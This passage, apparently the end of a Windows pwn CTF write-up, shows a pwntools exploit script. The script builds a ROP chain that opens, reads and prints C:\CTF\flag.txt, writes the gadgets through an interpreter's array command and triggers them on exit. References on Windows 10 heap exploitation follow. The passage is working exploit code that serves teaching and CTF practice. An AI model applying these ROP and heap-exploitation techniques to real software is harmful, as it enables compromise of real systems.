        None,
        None,
        None,
        None,
        pop_rax,
        u64("lag.txt\0"),
        pop_rcx,
        scratch + 0x308,
        mov_drcx_rax,
        pop_rax,
        u64("C:\\CTF\\f"),
        pop_rcx,
        scratch + 0x300,  # r"C:\CTF\flag.txt"
        mov_drcx_rax,
        pop_rdx_r11,
        scratch + 0x000,
        None,
        xor_r8,
        ret,
        OpenFile,
        pop_rcx_r8_r9_r10_r11,
        None,  # shadow space
        None,
        None,
        None,
        None,
        pop_rcx,
        payload_start + 0x24 * 8,  # &r1
        mov_drcx_rax,
        pop_rcx,
        None,  # r1 (idx 0x24)
        pop_rdx_r11,
        scratch + 0x100,
        None,
        pop_r8_r9_r10_r11,
        0x100,
        scratch + 0x200,
        None,
        None,
        ReadFile,
        pop_rcx_r8_r9_r10_r11,
        None,
        None,
        None,
        None,
        0,
        ret,
        pop_rcx,
        (-11 & 0xffffffff),
        GetStdHandle,
        pop_rcx,
        payload_start + 0x3c * 8,  # &r2
        mov_drcx_rax,
        pop_rcx,
        None,  # r2 (idx 0x3c)
        pop_rdx_r11,
        scratch + 0x100,
        None,
        pop_r8_r9_r10_r11,
        0x100,
        scratch + 0x200,
        None,
        None,
        WriteFile,
        pop_rcx_r8_r9_r10_r11,
        None,
        None,
        None,
        None,
        0,
        ret,
        pop_rcx,
        0xffffffff,
        Sleep,
        None,  # ret of Sleep, not reached
        None,  # margin for shadow space
        None,
        None,
        None
    ]

    if payload_start + len(payload)*8 > StackBase:
        log.warning("Not enough remaining space for ROP gadgets! Trying again...")
        p.close()
        continue

    log.info('Writing ROP gadgets...')
    for i in range(len(payload)):
        if payload[i] is None:
            continue
        idx_lo, idx_hi = 2*i, 2*i+1
        lo, hi = q2d(payload[i])
        interp('setarr stack {} {}'.format((payload_start + idx_lo * 4 - (StackLimit + 0x14)) // 4, lo))
        interp('setarr stack {} {}'.format((payload_start + idx_hi * 4 - (StackLimit + 0x14)) // 4, hi))
    log.success('ROP gadgets prepared.')

    log.info('Triggering ROP through exit...')

    p.sendline('coffin')

    print(p.recvuntil('}'))

    p.close()

    break
```

[PDBEX]: https://github.com/wbenny/pdbex
[REF1]: https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version
[REF2]: https://github.com/peleghd/Windows-10-Exploitation/blob/master/Low_Fragmentation_Heap_(LFH)_Exploitation_-_Windows_10_Userspace_by_Saar_Amar.pdf